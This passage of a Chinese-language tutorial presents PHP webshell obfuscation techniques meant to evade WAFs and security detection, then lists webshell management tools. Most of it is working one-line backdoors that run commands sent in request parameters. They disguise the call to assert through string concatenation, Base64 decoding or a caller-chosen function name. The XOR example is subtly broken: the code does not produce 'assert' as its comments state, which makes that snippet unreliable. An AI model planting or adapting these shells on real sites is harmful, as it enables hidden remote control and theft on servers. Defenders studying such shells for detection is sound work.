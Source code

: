 ### 5. WebShell 变形技术

为了绕过防火墙（WAF）和安全检测，WebShell 往往会使用各种技术手段进行变形和混淆。

#### 5.1 利用字符串连接和替换

**示例**：
```php
<?php
$str1 = "as";
$str2 = "sert";
$func = $str1 . $str2; // $func = "assert"
$func($_REQUEST['cmd']); // 相当于执行 assert($_REQUEST['cmd'])
?>
```

#### 5.2 利用 Base64 编码

**示例**：
```php
<?php
$code = base64_decode("YXNzZXJ0"); // "assert" 的 Base64 编码
$code($_REQUEST['cmd']); // 相当于执行 assert($_REQUEST['cmd'])
?>
```

#### 5.3 利用替代数据来源

**示例**：
```php
<?php
$_REQUEST['a']($_REQUEST['cmd']); // 请求参数 a 的值可以是 assert、eval 等函数名
?>
```

#### 5.4 利用异或运算

**示例**：
```php
<?php
$func = chr(97) ^ chr(2); // 'a' 异或 2
$func .= chr(115) ^ chr(5); // 's' 异或 5
$func .= chr(115) ^ chr(5); // 's' 异或 5
$func .= chr(101) ^ chr(1); // 'e' 异或 1
$func .= chr(114) ^ chr(0); // 'r' 异或 0
$func .= chr(116) ^ chr(5); // 't' 异或 5
$func($_REQUEST['cmd']); // 相当于执行 assert($_REQUEST['cmd'])
?>
```

### 6. WebShell 管理工具

常见的 WebShell 管理工具包括：
- **蚁剑 (AntSword)**：开源、跨平台的 WebShell 管理工具。
- **C刀 (Cknife)**：跨平台的中国菜刀变种。
- **冰蝎 (Behinder)**：支持动态加密的 WebShell 管理工具，功能强大。
- **哥斯拉 (Godzilla)**：功能丰富，支持虚拟终端、数据库管理等。
